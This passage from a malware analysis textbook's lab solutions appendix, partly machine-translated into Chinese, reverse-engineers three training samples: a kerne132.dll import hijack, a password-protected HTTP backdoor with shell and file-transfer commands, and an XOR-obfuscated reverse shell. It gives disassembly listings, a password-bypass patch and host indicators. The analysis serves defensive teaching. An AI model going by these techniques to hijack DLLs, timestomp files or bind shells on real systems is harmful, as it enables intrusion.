现在我们知道可执行文件会搜索文件系统中的每个以 *.exe* 结尾的文件，找到该文件中包含字符串 kernel32.dll 的位置，并将其替换为 **kerne132 *.*** **dll**。根据我们之前的分析，我们知道 *Lab07-03.dll* 将被复制到 *C:\Windows\System32* 并命名为 ***kerne132.dll***。

到目前为止，我们可以得出结论，恶意软件修改了可执行文件，使它们访问 ***kerne132.dll*** 而不是 *kernel32.dll*。这表明 ***kerne132.dll***

是由修改为加载 ***kerne132.dll*** 而不是 *kernel32.dll* 的可执行文件加载的。

到目前为止，我们已经到达了程序的末尾，应该能够使用动态分析来填补空白。我们可以使用 procmon 来确认程序搜索文件系统中的 *.exe* 文件，然后打开它们。

（Procmon 将显示程序打开系统上的每个可执行文件。）**7**

如果我们选择一个已打开的 *.exe* 文件并检查导入目录，我们可以确认从 *kernel32.dll* 的导入已被从 ***kerne132.dll*** 的导入所取代。这意味着系统上的每个可执行文件都将尝试加载我们的恶意 DLL——每一个。

接下来，我们检查程序如何修改 *kernel32.dll* 和 *Lab07-03.dll*。我们可以计算程序运行前后 *kernel32.dll* 的 MD5 哈希值，以清楚地看到这种恶意软件不会修改 *kernel32.dll*。

当我们打开修改后的 *Lab07-03.dll*（现在命名为 ***kerne132.dll***），我们看到它现在有一个导出部分。在 PEview 中打开它，我们看到它导出了 *kernel32.dll* 所导出的所有函数，并且这些都是转发导出，因此实际功能仍在 *kernel32.dll* 中。这种修改的整体效果是，每当在这台计算机上运行 *.exe* 文件时，它将加载恶意 ***kerne132.dll*** 并运行 DLLMain 中的代码。

除了这些，所有功能将保持不变，代码将像程序仍在调用原始 *kernel32.dll* 一样执行。

我们现在已经完全分析了这种恶意软件。我们可以根据我们所知创建基于主机和网络签名的签名，或者我们可以编写一份恶意软件报告。

在这次分析中，我们确实省略了很多代码，因为它们太复杂了，但我们遗漏了什么吗？我们确实遗漏了一些东西，但都不是对恶意软件分析重要的事情。主方法中访问 *kernel32.dll* 和 *Lab07-03.dll* 的所有代码都在解析 *kernel32.dll* 的导出部分，并在 *Lab07-03.dll* 中创建一个导出相同的函数并创建转发条目的导出部分。

恶意软件需要扫描 *kernel32.dll* 中的所有导出，并为冒充者 ***kerne132.dll*** 创建转发条目，因为 *kernel32.dll* 在不同的系统上不同。定制的 ***kerne132.dll*** 导出与真实 *kernel32.dll* 完全相同的函数。在修改 *kernel32.dll* 的函数中，

*.exe*，找到导入目录的代码，因此它可以修改导入为 *kernel32.dll* 并将绑定导入表设置为零，这样它就不会被使用。

通过仔细且耗时的分析，我们可以确定所有这些功能的作用。然而，在分析恶意软件时，时间通常至关重要，您通常应该关注重要的事情。尽量不用担心那些不会影响您分析的小细节。

实验室解决方案

**529**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Lab 9-1 解决方案**

***简短答案***

1.

您可以通过提供 -in 选项和密码来让程序自行安装。或者，您也可以修补二进制文件以跳过密码验证检查。

2.

程序的命令行选项是四个值之一和密码。密码是字符串 abcd，并且对于所有操作（除了默认行为）都是必需的。-in 选项指示恶意软件安装自身。-re 选项指示恶意软件删除自身。The

-c 选项指示恶意软件更新其配置，包括其信标 IP 地址。-cc 选项指示恶意软件将其当前配置打印到控制台。默认情况下，如果安装了恶意软件，此恶意软件作为后门运行。

3.

您可以通过更改地址 0x402510 的函数的第一个字节始终返回 true 来修补二进制文件。这种行为对应的汇编指令是 MOV EAX, 0x1; RETN;，这对应于字节序列 B8 01 00 00 00 C3\。

4.

恶意软件创建注册表键 HKLM\Software\Microsoft \XPS\ Configuration（注意 Microsoft 后面的空格）。恶意软件还创建服务 *XYZ* Manager Service，其中 *XYZ* 可以是在安装时提供的参数或恶意软件可执行文件的名字。最后，当恶意软件将其自身复制到 Windows 系统目录时，它可能会更改文件名以匹配服务名。

5.

恶意软件可以通过网络执行五个命令之一：SLEEP、UPLOAD、DOWNLOAD、CMD 或 NOTHING。SLEEP 命令指示恶意软件在指定的时间内不执行任何操作。

UPLOAD 命令从网络读取文件并将其写入本地系统指定的路径。DOWNLOAD 命令指示恶意软件将本地文件的 内容通过网络发送到远程主机。CMD 命令导致恶意软件在本地系统上执行 shell 命令。NOTHING 命令是一个无操作命令，导致恶意软件不执行任何操作。

6.

默认情况下，恶意软件的信标为 *http://www.practicalmalwareanalysis.com/*；然而，这是可配置的。信标是针对形式为 *xxxx/xxxx.xxx* 的资源的 HTTP/1.0 GET 请求，其中 *x* 是一个随机的字母数字 ASCII 字符。恶意软件在其请求中不提供任何 HTTP 头部信息。

***详细分析***

我们首先使用 OllyDbg 调试恶意软件。我们使用 F8 键单步跳过，直到到达地址 0x403945，这是主函数的调用。（确定主函数从 0x402AF0 开始的最简单方法是查看地址。）

**530**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

使用 IDA Pro。)接下来，我们使用 F7 键进入主函数的调用。我们继续使用 F7 和 F8 键向前执行，同时注意样本的行为。（如果你不小心走得太远，可以通过按 CTRL-F2 将执行重置到开始处。）

首先，恶意软件在地址 0x402AFD 检查命令行参数的数量是否等于 1。我们没有指定任何参数，所以检查成功，执行从地址 0x401000 继续。接下来，它尝试打开注册表键 HKLM\SOFTWARE\Microsoft \XPS；然而，由于注册表键不存在，函数返回零，因此执行调用到地址 0x402410 的函数。

在地址 0x402410 处的函数使用 GetModuleFilenameA 获取当前可执行文件的路径，并构建 ASCII 字符串/c del path-to-executable >> NUL。图 9-1L 显示了在 OllyDbg 的寄存器窗口中该字符串的一个实例。注意，EDX 的内容是 0x12E248，但 OllyDbg 正确地将它解释为一个指向 ASCII 字符串的指针。恶意软件试图删除**9**

通过将构造的字符串与程序*cmd.exe*在调用 ShellExecuteA 中结合，从磁盘删除自身。幸运的是，我们在 OllyDbg 中打开了文件，所以 Windows 不允许删除该文件。这种行为与我们第三章实验室中对样本进行的基本动态分析时看到的行为一致。

*图 9-1L：恶意软件准备从磁盘删除自身，如通过指向 EDX 的字符串指针所见*

我们接下来的任务是强制恶意软件正常运行。我们至少有两个选项：我们可以提供更多的命令行参数以满足地址 0x402AFD 的检查，或者我们可以修改检查注册表键的代码路径。修改代码路径可能会有未预料的效果。后续指令可能依赖于存储在这些键中的信息，如果这些信息被更改，恶意软件可能无法执行。让我们先尝试提供更多的命令行参数，以避免潜在的问题。

从字符串列表中选择任何条目，例如-in，并将其用作命令行参数来测试恶意软件是否做了有趣的事情。为此，选择**调试****参数**，如图 9-2L 所示。

然后在 OllyDbg 的参数对话框中添加-in 参数，如图 9-3L 所示。

当恶意软件以参数-in 执行时，它仍然试图删除自己，这告诉我们命令行参数尚未有效。让我们使用 OllyDbg 在给恶意软件一个参数时逐步查看代码流程，看看发生了什么。

实验室解决方案

**531**

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 9-2L：选择调试参数*

*图 9-3L：添加-in 参数*

Listing 9-1L 显示了函数设置和参数检查。

00402AF0 PUSH EBP

00402AF1 MOV EBP,ESP

00402AF3 MOV EAX,182C

00402AF8 CALL Lab09-01.00402EB0

00402AFD

CMP DWORD PTR SS:[EBP+8],1

00402B01 JNZ SHORT Lab09-01.00402B1D

*Listing 9-1L：函数设置和 argc 比较*

我们看到在检查命令行参数后，执行跳转到 0x402B01。argc，传递给程序的字符串参数的数量，位于框架指针上方 8 字节处，因为它是最先传递给 main 函数的参数。

在 0x402B2E，最后一个命令行参数被传递到从地址 0x402510 开始的函数。我们知道它是最后一个参数，因为标准 C 程序的主函数接受两个参数：argc，命令行参数的数量，和 argv，指向命令行参数的指针数组。EAX 包含 argc，而 ECX 包含 argv，如 Listing 9-2L 中的和所示。处的指令执行指针**532**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在数组命令行参数中的最后一个元素之前，该指针最终在 EAX 中，并在函数调用之前推入栈顶。

00402B1D MOV EAX,DWORD PTR SS:[EBP+8] ; ARGC

00402B20 MOV ECX,DWORD PTR SS:[EBP+C] ; ARGV

00402B23 MOV EDX,DWORD PTR DS:[ECX+EAX*4-4] 

00402B27 MOV DWORD PTR SS:[EBP-4],EDX

00402B2A MOV EAX,DWORD PTR SS:[EBP-4]

00402B2D PUSH EAX

*Listing 9-2L：argv 的最后一个元素的指针推入栈中* OllyDbg 提供的基本反汇编视图给出了从地址 0x402510 开始的函数的大致概述。没有函数调用，但通过扫描指令，我们看到使用算术运算**9**

ADD, SUB, MUL, 和 XOR 在字节大小的操作数上，例如在地址 0x402532

通过 0x402539。看起来这个例程使用复杂的、硬编码的算法对输入进行合理性检查。最有可能的是输入是一种密码或代码。

**注意**

*如果您对 0x4025120 进行完整分析，可以确定密码* *是* abcd。您使用密码或我们接下来解释的修补方法都会同样成功。*

我们不是逆向算法，而是修补二进制文件，使 0x402510 地址处的密码检查函数始终返回成功检查关联的值。这将使我们能够继续分析恶意软件的核心部分。我们注意到在地址 0x40251B 通过 0x402521 之间有一个对 strlen 的函数调用。如果参数未通过此检查，EAX

被置零，然后从 0x4025A0 地址处的函数清理处继续执行。

进一步逆向分析发现，只有正确的参数才会使函数返回值 1，但我们将修复它，使其在所有情况下都返回 1，无论参数如何。为此，我们插入 Listing 9-3L 中显示的指令。

B8 01 00 00 00 MOV EAX, 0x1

C3 RET

*清单 9-3L：密码检查的补丁代码*

我们使用 OllyDbg 中的**汇编**选项来组装这些指令，并得到 6 个字节的序列：B8 01 00 00 00 C3。因为 CALL 指令准备堆栈，而 RET 指令清理它，所以我们可以在密码检查函数的非常开始处覆盖指令，地址为 0x402510。通过右键单击您希望编辑的起始地址并选择**二进制****编辑**来编辑指令。图 9-4L 显示了相关的上下文菜单项。

实验解决方案

**533**

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 9-4L：修补二进制文件*

图 9-5L 显示了将指令输入编辑对话框后组装的指令。由于我们想在只占用 1 个字节的先前指令上写入 6 个字节，所以我们取消选中了标记为**保持大小**的框。

然后，我们在**HEX+06**字段中输入组装的十六进制值，并点击**确定**。

OllyDbg 将自动在适当的位置组装并显示新指令。接下来，通过右键单击反汇编窗口并选择**复制到可执行文件****所有** **修改**来保存对可执行文件所做的更改。接受所有对话框，并将新版本保存为*Lab09-01-patched.exe*。

为了测试是否成功禁用了密码检查函数，我们再次使用命令行参数-in 尝试调试它。这次，恶意软件成功通过了地址 0x402510 的检查，并跳转到地址 0x402B3F。六条指令后，一个指向第一个命令行参数的指针被推入堆栈，旁边是一个指向另一个 ASCII 字符串的指针，

-in. 图 9-6L 显示了此时的堆栈状态。

*图 9-5L：插入新指令*

*图 9-6L：堆栈状态*

*在地址 0x402B57*

地址为 0x40380F 的函数是 __mbscmp，这是一个由 IDA Pro 的 FLIRT 签名数据库识别的字符串比较函数。恶意软件使用 __mbscmp 来检查命令行参数是否与一组支持选项匹配，这些选项决定了其行为。

接下来，恶意软件检查是否提供了两个命令行参数。由于我们只提供了一个(-in)，检查失败，恶意软件再次尝试删除自己。我们可以通过提供一个额外的命令行参数来通过这个检查。

回想一下，最后一个命令行参数被视为密码，但由于我们修补了密码函数，我们可以提供任何字符串作为密码。在地址 0x402B63 设置一个断点，以便我们可以快速返回到**534**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



在命令行参数检查后，添加一个垃圾命令行参数在-in 之后，并重新启动调试过程。恶意软件接受所有命令行参数并执行其预期行为。

如果我们继续调试恶意软件，我们会看到恶意软件尝试使用与恶意软件可执行文件相同的 basename 在地址 0x4026CC 打开服务管理器。*basename* 是路径中去除目录和文件扩展信息的那部分。如果服务不存在，恶意软件将创建一个具有 *basename* Manager Service 名称和二进制路径 *%SYSTEMROOT%\system32\<filename>* 的自动启动服务。图 9-7L

显示调用 CreateServiceA 时的调用栈状态，包括 ASCII 字符串名称、描述和路径。在地址 0x4028A1，恶意软件将其自身复制到 *%SYSTEMROOT%\ system32\* 。地址 0x4015B0 的函数更改了复制的修改时间、访问时间和更改时间戳，以匹配系统文件 *kernel32.dll* 的那些时间戳。将时间戳修改为与另一个文件匹配称为 *时间戳篡改*。

**9**

*图 9-7L：在地址 0x402805 调用 CreateServiceA 时的堆栈状态*

最后，恶意软件创建注册表键 HKLM\SOFTWARE\Microsoft \XPS。

Microsoft 在此之后跟随着一个空格，使其成为一个独特的基于主机的指示器。

它将名为 Configuration 的值填充为地址 0x4011BE 由 EDX 寄存器指向的缓冲区的内容。要找出该缓冲区的内容，请在地址 0x4011BE 设置一个断点，并运行（按 F9）到它。在寄存器窗口中右键单击 EDX 寄存器的值，并选择 **在转储中跟随**。十六进制转储视图显示了四个以 NULL 结尾的字符串，后面跟着许多零，如图 9-8L 所示。这些字符串包含 ups、http://www.practicalmalwareanalysis.com、80 和 60 的值。这看起来可能是与恶意软件的网络功能相关的配置数据。

*图 9-8L：内存中看到的网络字符串*

**命令行选项分析**

在记录了恶意软件的安装例程后，我们现在可以通过继续使用 OllyDbg 调试或使用 IDA Pro 反汇编来探索其他功能。首先，我们将使用 IDA Pro 描述其他代码解决方案到实验室

**535**

[www.it-ebooks.info](http://www.it-ebooks.info/)

路径。此样本支持 -in、-re、-c 和 -cc 开关，如表 9-1L 所示。这些可以通过在主函数中查找对 __mbscmp 的调用轻松识别。

**表 9-1L：支持的命令行开关**

**命令行开关**

**实现地址**

**行为**

-in

0x402600

安装服务

-re

0x402900

卸载服务

-c

0x401070

设置配置密钥

-cc

0x401280

打印配置密钥

将从地址 0x402900 开始的函数与之前检查的安装函数进行比较，该地址对应于命令行参数-re。-re 函数与 0x402600 地址处的函数正好相反。它打开服务管理器（地址 0x402915），定位恶意软件的安装（地址 0x402944），并删除服务（地址 0x402977）。最后，它删除位于*%SYSTEMROOT%\ system32*中的恶意软件副本，并移除配置注册表值（地址 0x402A9D 和 0x402AD5）。

接下来，查看从地址 0x401070 开始的函数，如果提供-c 开关，则运行。如果你在 IDA Pro 中已经用描述性名称仔细重命名了函数，那么很明显，我们在安装和卸载例程中都已经遇到过这个函数。如果你忘记更新这个函数名称，请使用 IDA Pro 的交叉引用功能来验证该函数是否在所有这些地方使用。为此，导航到函数实现，单击函数名称，右键单击名称，并选择**Xrefs to**。

从 0x401070 地址开始的函数接受四个参数，并将它们连接在一起。字符串连接函数是内联的，可以通过 REP MOVSx（REPeat MOVe String）指令来识别。该函数将结果缓冲区写入 Windows 注册表的 HKLM\SOFTWARE\Microsoft \XPS 键的 Configuration 值。向恶意软件提供-c 开关允许用户更新 Windows 注册表中的恶意软件配置。图 9-9L 显示了恶意软件默认安装后使用 Regedit 在 Windows 注册表中的条目。

如果提供-cc 开关，则执行 0x401280 地址处的函数，它是配置函数（0x401070）的反向操作，因为它读取配置注册表值的值并将字段放入作为函数参数指定的缓冲区中。如果向恶意软件提供-cc 开关，则从注册表中读取当前配置并将其格式化为字符串。

恶意软件随后将此字符串打印到控制台。以下是恶意软件默认安装后-c 开关的输出：C:>Lab09-01-patched.exe –cc epar

k:ups h:http://www.practicalmalwareanalysis.com p:80 per:60

**536**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 9-9L：配置注册表值*

**9**

当恶意软件安装且未提供任何命令行参数时，达到最终的代码路径。恶意软件通过确定是否创建了注册表键来检查安装，地址为 0x401000。默认行为的实现可以在从地址 0x402360 开始的函数中找到。注意在 0x402403 处的跳转回到 0x40236D，这表明有一个循环，以及三个退出条件（在地址 0x4023B6、0x4023E0 和 0x402408）直接导致程序终止。看起来恶意软件获取当前配置，调用一个函数，休眠一秒钟，然后永远重复这个过程。

**后门分析**

后门功能是在一系列函数中实现的，这些函数首先从无限循环中被调用。地址为 0x402020 的函数调用从地址 0x401E60 开始的函数，并将返回的字符串的开始部分与支持值的列表进行比较：SLEEP、UPLOAD、DOWNLOAD、CMD 和 NOTHING。如果恶意软件遇到这些字符串之一，它将调用一个响应该请求的函数，其过程类似于解析命令行参数。表 9-2L 总结了支持的命令，其中斜体表示可调整的参数。

**表 9-2L：支持的命令**

**地址为**

**命令字符串**

**命令**

**实现**

**格式**

**行为**

SLEEP

0x402076

SLEEP *秒数*

休眠*秒数*秒

UPLOAD

0x4019E0

UPLOAD *端口*

在本地创建*文件名*文件

*文件名*

通过首先连接到远程

主机通过端口*端口*并读取

内容

DOWNLOAD

0x401870

DOWNLOAD *端口*

读取*文件名*文件并发送到

*文件名*

通过端口*端口*的远程主机

*(继续)*

实验室解决方案

**537**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**表 9-2L：支持的命令（继续）**地址为

**命令字符串**

**命令**

**实现**

**格式**

**行为**

CMD

0x402268

CMD *端口*

执行*命令*的 shell 命令

*命令*

使用*cmd.exe*并将输出发送到

通过端口*端口*的远程主机

NOTHING

0x402356

NOTHING

无操作

**注意**

*UPLOAD 和 DOWNLOAD 命令与标准用法相反。在分析时，始终关注底层功能，而不是恶意软件使用的单个字符串。*

**网络分析**

在这一点上，我们可以看到我们手头有一个功能齐全的后门。恶意软件可以执行任意的 shell 命令和文件上传下载的内建例程。接下来，我们将探索从地址 0x401E60 开始的函数，该函数将命令返回给行为调度器。这将展示命令是如何从远程主机传递给恶意软件的，这可能使我们能够为这个样本创建基于网络的签名。

在浏览 0x401E60 的内容时，我们看到很多只具有一个交叉引用的函数调用。我们不会完全逆向每个函数，而是使用 OllyDbg 来调试这个代码路径。在这样做之前，请确保恶意软件已成功安装，通过运行带有

`-cc`选项，如果程序已安装，则应打印出当前配置，如果没有安装，则尝试删除自身。

接下来，使用 OllyDbg 打开恶意软件，删除任何保存的命令行参数，以便恶意软件执行其默认行为。在地址 0x401E60 处设置一个断点。您可以通过按 CTRL-G 并输入**401E60**轻松导航到该地址。通过按 F2 在该位置设置断点。

使用**Step Over**（按 F8 键）在这个区域运行几次。特别注意函数的参数和返回值。

首先，我们将检查从 0x401420 开始的函数。我们在地址 0x401E85 的调用和紧随其后的指令（0x401E8A）处设置了一个断点。在第一个断点处，两个参数已推入堆栈。在堆栈顶部，我们看到地址 0x12BAAC，后面跟着整数 0x400。如果我们跟随转储视图中的地址，我们看到它包含一大块零——可能至少有 0x400 字节的空闲空间。接下来，运行恶意软件（按 F9）到第二个断点。在从地址 0x401420 开始的函数中，恶意软件将 ASCII 字符串 http://www.practicalmalwareanalysis.com 写入缓冲区。现在我们可以（正确地）假设这个函数从 Windows 注册表中获取特定的配置值，该值在安装期间初始化，并将其放入缓冲区。现在让我们尝试使用从地址 0x401470 和 0x401D80 开始的函数采用相同的方法。

**538**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

从 0x401470 开始的函数与从 0x401420 开始的函数类似，不同之处在于它返回数字 80（0x50）而不是 URL。这个字符串包含与服务器*http://www.practicalmalwareanalysis.com/*关联的端口号。

从 0x401D80 开始的函数略有不同，它在每次调用时并不返回相同的值。相反，它似乎返回一个包含随机字符的 ASCII 字符串。在多次调试此函数后，将出现涉及正斜杠（/）和点（.）字符的模式。也许返回的字符串对应于类似 URL 的方案。

当在隔离的测试环境中分析恶意软件时，它将在下一个函数的某个地方反复失败，该函数从地址 0x401D80 开始。回到 IDA Pro 的反汇编视图，我们看到在这个函数中，恶意软件构建了一个 HTTP/1.0 GET 请求并连接到远程系统。由于这是一个有效的出站 HTTP 请求，因此这种连接不太可能被企业防火墙阻止。如果你的恶意软件分析 **9**

虚拟机已禁用网络，出站连接永远不会成功，恶意软件将失败。然而，通过仔细查看反汇编列表，你会看到恶意软件确实尝试连接到注册表中记录的域名和端口，并请求一个随机命名的资源。对反汇编的进一步分析显示，恶意软件在服务器返回的文档中搜索特定的字符串 `’`’`（反引号，撇号，反引号，撇号，反引号）和 `’`’`’（撇号，反引号，撇号，反引号，撇号），并使用这些字符串来界定命令和控制协议。

**恶意软件摘要**

此样本是一个 HTTP 反向后门。在调用恶意软件进行安装、配置和卸载时，必须提供密码 abcd 作为最后一个参数。它通过将自己复制到 *%SYSTEMROOT%\* *WINDOWS\system32* 目录并创建一个自动运行服务来自动安装。可以通过传递命令行参数 -re 或使用 -c 标志重新配置来干净地移除恶意软件。

在安装后运行时，恶意软件使用注册表键来获取服务器配置信息，并向远程系统发出 HTTP/1.0 GET 请求。命令和控制协议嵌入在响应文档中。恶意软件识别五个命令，包括一个指定执行任意 shell 命令的命令。

**实验 9-2 解答**

***简短答案***

1.

导入和字符串 cmd 是在二进制文件中静态出现的唯一有趣的字符串。

2.

它在执行很少的操作后终止。

3.

在运行之前，请重命名文件 *ocl.exe*。

实验解答

**539**

[www.it-ebooks.info](http://www.it-ebooks.info/)

4.

在堆栈上正在构建一个字符串，攻击者使用它来混淆来自简单字符串工具和基本静态分析技术的字符串。

5.

字符串 1qaz2wsx3edc 和指向数据缓冲区的指针被传递到子程序 0x401089。

6.

恶意软件使用域名 *practicalmalwareanalysis.com*。

7.

恶意软件将编码的 DNS 名称与字符串 1qaz2wsx3edc 进行 XOR 运算以解码域名。

8.

恶意软件将 stdout、stderr 和 stdin 处理程序（用于 CreateProcessA 函数的 STARTUPINFO 结构中）设置为套接字。由于 CreateProcessA 函数以 cmd 作为参数被调用，这将通过将命令 shell 绑定到套接字来创建一个反向 shell。

***详细分析***

我们将使用动态分析和 OllyDbg 来分析这段恶意软件，以确定其功能。但在我们开始调试之前，让我们先在二进制文件上运行 Strings。我们看到导入项和字符串 cmd。接下来，我们将简单地运行二进制文件，看看是否会发生任何有趣的事情。

根据 Process Explorer 中的进程启动和退出，进程似乎几乎立即终止。我们肯定需要调试这个进程以查看发生了什么。

当我们将二进制文件加载到 IDA Pro 中时，我们看到主函数从 0x401128 开始。OllyDbg 将在应用程序的入口点处中断，但入口点包含大量由编译器生成的无趣代码，因此我们将软件断点设置在 main 上，因为我们想专注于它。

**解码栈形成的字符串**

如果我们点击**运行**按钮，我们会在 main 处遇到第一个断点。首先要注意的是一系列 mov 指令，它们将单个字节移动到从  开始的局部变量中，如列表 9-4L 所示。

00401128 push ebp

00401129 mov ebp, esp

0040112B sub esp, 304h

00401131 push esi

00401132 push edi

00401133 mov [ebp+var_1B0], 31h 

0040113A mov [ebp+var_1AF], 71h

00401141 mov [ebp+var_1AE], 61h

00401148 mov [ebp+var_1AD], 7Ah

0040114F mov [ebp+var_1AC], 32h

00401156 mov [ebp+var_1AB], 77h

0040115D mov [ebp+var_1AA], 73h

00401164 mov [ebp+var_1A9], 78h

0040116B mov [ebp+var_1A8], 33h

00401172 mov [ebp+var_1A7], 65h

00401179 mov [ebp+var_1A6], 64h

00401180 mov [ebp+var_1A5], 63h

00401187 mov [ebp+var_1A4], 0 

**540**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040118E mov [ebp+Str1], 6Fh 00401195 mov [ebp+var_19F], 63h

0040119C mov [ebp+var_19E], 6Ch

004011A3 mov [ebp+var_19D], 2Eh

004011AA mov [ebp+var_19C], 65h

004011B1 mov [ebp+var_19B], 78h

004011B8 mov [ebp+var_19A], 65h

004011BF mov [ebp+var_199], 0 

*列表 9-4L：逐个字符在栈上构建 ASCII 字符串* 这段代码通过将每个字符移动到栈上，然后跟随  和  处的空终止符来构建两个 ASCII 字符串，这是一种流行的字符串混淆方法。混淆的字符串将通过字符串的第一个变量引用，这将给我们完整的空终止 ASCII 字符串。我们逐条执行这些移动以寻找这些字符串的迹象。

在栈的右下角创建。我们在 0x4011C6 处停止执行，右键单击 EBP，并选择**在转储中跟踪**。通过向上滚动到第一个字符串

[EBP-1B0]，我们可以看到字符串 1qaz2wsx3edc 被创建。第二个字符串在 [EBP-1A0] 处创建，命名为 ocl.exe。

**文件名检查**

在这些字符串创建之后，我们可以在列表 9-5L 中看到对 GetModuleFileNameA 的调用（在  处），然后是 *Lab09-02.exe* 恶意软件中对 0x401550 的函数调用。如果我们尝试在 OllyDbg 中分析此函数，我们会发现它相当复杂。如果我们使用 IDA Pro 检查它，我们会看到它是 C 运行时库函数 _strrchr。OllyDbg 由于缺乏符号支持而错过了这一点。如果我们将二进制文件加载到 IDA Pro 中，我们可以让 IDA Pro 使用其 FLIRT

通过如图所示的签名检测来正确识别这些 API，如图所示。

00401208 call ds:GetModuleFileNameA 

0040120E push 5Ch ; Ch

00401210 lea ecx, [ebp+Str]

00401216 push ecx ; Str

00401217 call **_strrchr** 

*列表 9-5L：IDA Pro 正确标记 strrchr，但 OllyDbg 不正确。*

让我们通过在 0x401217 处的调用上设置断点来验证这一点。我们可以看到两个参数被推送到堆栈上。第一个是正斜杠，第二个是从 GetModuleFileNameA 调用返回的值，这将是被执行的可执行文件的当前名称。恶意软件正在向后搜索正斜杠（0x5C 字符），试图获取被执行的可执行文件名称（而不是完整路径）。如果我们单步跳过 _strrchr 的调用，我们可以看到 EAX 指向的字符串

\Lab09-02.exe.

下一个函数调用（0x4014C0）揭示了一个类似于 _strrchr 的情况。

IDA Pro 将此函数识别为 _strcmp，如图 9-6L 所示。

实验解决方案

**541**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040121F mov [ebp+Str2], eax

00401222 mov edx, [ebp+Str2]

00401225 添加 edx, 1 

00401228 mov [ebp+Str2], edx

0040122B mov eax, [ebp+Str2]

0040122E push eax ; Str2

0040122F lea ecx, [ebp+Str1]

00401235 push ecx ; Str1

00401236 call **_strcmp**

*列表 9-6L：IDA Pro 正确标记 strcmp，但 OllyDbg 不正确。*

我们将通过在 0x401236 处调用 _strcmp 的调用上设置断点来确定正在比较哪些字符串。一旦我们的断点被触发，我们就可以看到发送到 _strcmp 调用的两个字符串。第一个是指向 GetModuleFileNameA 调用的指针（在  处增加一以考虑正斜杠），另一个是 ocl.exe（我们之前解码的字符串）。如果字符串匹配，EAX 应该包含 0，test eax,eax 将设置零标志为真，然后执行将转到 0x40124C。如果条件为假，看起来程序将退出，这解释了为什么我们在之前尝试执行它时恶意软件终止。恶意软件必须命名为 *ocl.exe* 才能正确执行。

让我们将二进制文件重命名为 *ocl.exe* 并在 0x40124C 处设置断点。如果我们的分析是正确的，恶意软件不应该退出，并且我们的断点将被触发。成功！我们的断点被触发了，我们可以在 OllyDbg 中继续我们的分析。

**解码 XOR 编码的字符串**

WSAStartup and WSASocket are imported, so we can assume some networking functionality is going to be taking place. The next major function call is at 0x4012BD to the function 0x401089\. Let’s set a breakpoint at 0x401089

and inspect the stack for the arguments to this function call.

The two arguments being passed to this function are a stack buffer (encoded string) and the string 1qaz2wsx3edc (key string). We step-into the function and step to the call at 0x401440, which passes the key string to strlen. It returns 0xC and moves it into [EBP-104]. Next, [EBP-108] is initialized to 0\. OllyDbg has noted a loop in progress, which makes sense since [EBP-108]

is a counter that is incremented at 0x4010DA and compared to 0x20 at 0x4010E3\. As the loop continues to execute, we see our key string going through an idiv and mov instruction sequence, as shown in Listing 9-7L.

004010E3 cmp [ebp+var_108], 20h

004010EA

jge short loc_40111D 

004010EC mov edx, [ebp+arg_4]

004010EF add edx, [ebp+var_108]

004010F5 movsx ecx, byte ptr [edx]

004010F8 mov eax, [ebp+var_108]

004010FE cdq

004010FF idiv [ebp+var_104]

**542**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401105 mov eax, [ebp+Str]

00401108 movsx edx, byte ptr [eax+edx] 

0040110C xor ecx, edx 

0040110E mov eax, [ebp+var_108]

00401114 mov [ebp+eax+var_100], cl

0040111B jmp short loc_4010D4

*Listing 9-7L: String decoding functionality*

This is getting an index into the string. Notice the use of EDX after the idiv instruction at , which is using modulo to allow the malware to loop over the string in case the encoded string length is longer than our key string. We then see an interesting XOR at .

If we set a breakpoint at 0x4010F5, we can see which value is being pointed to by EDX and being moved into ECX, which will tell us the value that is getting XOR’ed later in the function. When we click **Follow in Dump** **9**

on EDX, we see that this is a pointer to the first argument to this function call (encoded string). ECX will contain 0x46, which is the first byte in the encoded string. We set a breakpoint at  to see what is being XOR’ed on the first iteration through the loop. We see that EDX will contain 0x31 (first byte of key string), and we again see that ECX will contain 0x46\.

Let’s execute the loop a few more times and try to make sense of the string being decoded. After clicking play a few more times, we can see the string www.prac. This could be the start of a domain that the malware is trying to communicate with. Let’s continue until var_108 ([EBP-108], our counter variable) equals 0x20\. Once the jge short 0x40111D at  is taken, the final string placed into EAX is www.practicalmalwareanalysis.com (which happens to be of length 0x20), and the function will then return to the main function. This function decoded the string www.practicalmalwareanalysis.com by using a multibyte XOR loop of the string 1qaz2wsx3edc.

在主函数中，我们看到 EAX 被传递给 gethostbyname 调用。此值将返回一个 IP 地址，该地址将填充 sockaddr_in 结构。

接下来，我们看到一个对 ntohs 的调用，其参数为 0x270f，即十进制的 9999。

